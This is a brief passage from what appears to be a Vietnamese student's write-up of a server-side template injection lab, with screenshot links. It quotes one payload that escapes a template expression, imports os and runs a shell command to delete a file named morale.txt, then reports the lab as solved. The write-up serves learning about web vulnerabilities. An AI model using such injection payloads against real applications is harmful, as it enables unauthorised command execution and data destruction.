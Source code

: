 ![lab-2-10](images/lab-2/lab-2-10.png)

Để xoá file đó em dùng payload `}}{% import os %}{{ os.system("rm morale.txt") }}`:

![lab-2-11](images/lab-2/lab-2-11.png)

Cuối cùng, em đã giải được bài lab:
